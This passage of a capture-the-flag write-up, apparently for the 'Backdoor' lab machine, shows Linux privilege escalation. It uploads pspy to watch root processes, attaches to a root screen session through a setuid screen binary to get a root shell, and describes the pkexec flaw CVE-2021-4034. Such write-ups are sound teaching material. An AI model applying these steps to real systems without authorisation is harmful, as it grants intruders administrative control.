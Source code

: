 From the data found we can try the [CVE-2021-4034 exploit](https://github.com/berdav/CVE-2021-4034) to obtain a root shell.:
```bash
# Check if system can compile c
user@Backdoor:/tmp$ which gcc
user@Backdoor:/tmp$ which make
```
Since none gcc nor make are installed on the system, we cannot run the `pkexec` exploit.

### pspy
First, we need to know the architecture of the system:
```bash
user@Backdoor:/tmp$ uname -a
Linux Backdoor 5.4.0-80-generic \#90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
So we need to upload the binary `pspy32s` to the target:
```bash
❯ scp -i ~/HTB/Machines/In_Progress/Backdoor/Results/id_rsa ./pspy32s user@10.10.11.125:/tmp
user@Backdoor:/tmp$ ./pspy32s -c -i 100 | grep UID=0
# Actually exploited
2022/05/31 21:00:41 CMD: UID=0    PID=865    | /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

# New potential vulnerabilities
2022/05/31 21:00:41 CMD: UID=0    PID=851    | /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
user@Backdoor:/tmp$ which screen | xargs ls -la
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
```
We see the binary `/usr/bin/screen` executing every second, also, this binary has the `suid` flag set. As seen at https://www.linode.com/docs/guides/using-gnu-screen-to-manage-persistent-terminal-sessions/, the parameter -x is used to access to the same session as other user. In the previous execution of pspy32s, we saw root creating a screen session called root, so we could try to connect to the same session:
```bash
user@Backdoor:/tmp$ screen -x root/ # / is used to connect to a dettached session
root@Backdoor:~ whoami
root
```
We obtained a root shell.

## CVE
### CVE-2021-4034
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

